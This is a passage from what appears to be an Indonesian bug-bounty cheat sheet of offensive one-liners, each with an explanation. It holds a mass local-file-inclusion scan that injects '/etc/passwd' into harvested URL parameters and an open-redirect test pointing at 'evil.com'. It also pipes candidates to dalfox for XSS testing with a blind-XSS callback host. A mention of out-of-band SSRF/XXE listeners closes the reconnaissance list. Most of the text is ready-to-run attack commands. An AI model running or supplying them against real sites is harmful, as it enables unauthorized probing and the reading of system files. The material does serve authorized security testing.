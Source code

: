    Bruteforce subdomain dengan wordlist.
9. **OOB Interaction:**  
   Siapkan listener untuk bug OOB (Out-of-Band) seperti SSRF, XXE dengan Interactsh.
10. **Nuclei scanning:**  
    Scanning otomatis menggunakan template vulnerabilities nuclei.

---

## One-liner dan Penjelasan

### 1. Local File Inclusion (LFI)

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

**Penjelasan:**

- Mencari URL yang rentan LFI, mengganti parameter menjadi `/etc/passwd`, lalu cek apakah file tersebut bisa dibaca oleh server.
- **Cara pakai:**
  - Install: gau, gf, qsreplace, curl.
  - Jalankan: `gau example.com | gf lfi | qsreplace "/etc/passwd" | xargs ...`
  - Hasil: Jika ada output "VULN! <url>", berarti LFI ditemukan.

---

### 2. Open Redirect

```bash
export LHOST="https://evil.com"; gau HOST | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

**Penjelasan:**

- Mencari parameter redirect, mengganti value menjadi domain luar, lalu cek apakah server melakukan redirect ke domain tersebut.
- **Cara pakai:**
  - Set LHOST: `export LHOST="https://evil.com"`
  - Jalankan: `gau example.com | gf redirect ...`
  - Hasil: URL yang rentan open redirect.

---

### 3. XSS (Cross-Site Scripting)

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

**Penjelasan:**

- Mengumpulkan parameter yang berpotensi XSS, lalu diuji dengan dalfox menggunakan payload otomatis.
- **Cara pakai:**
  - Ganti `YOURS.xss.ht` dengan domain burp collaborator/XSS hunter-mu.
  - Jalankan seperti di atas.

---